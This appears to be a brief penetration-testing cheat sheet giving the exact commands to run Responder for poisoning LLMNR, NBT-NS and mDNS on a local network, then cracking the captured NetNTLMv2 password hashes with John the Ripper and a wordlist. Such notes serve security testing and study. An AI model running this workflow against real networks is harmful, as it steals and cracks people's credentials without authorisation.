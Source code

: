 **1. Responder (LAN only)**

Github: https://github.com/SpiderLabs/Responder
Attack and exploit insecure name resolution protocols in the LAN:
- LLMNR (Link-Local Multicast Name Resolution)
- NBT-NS (NetBIOS Name Service)
- mDNS (Multicast DNS)
```
python2 Responder.py -I eth0
```
=> Collect the hash user/password

**2. John**

Check and crack the hashed password
```
john <hash> --wordlist=/.../rock.. --format=netntlmv2
```
=> Crack the hashed password collected from Responder

**3. Check hash format**
```
hash-identifier <hash>
```
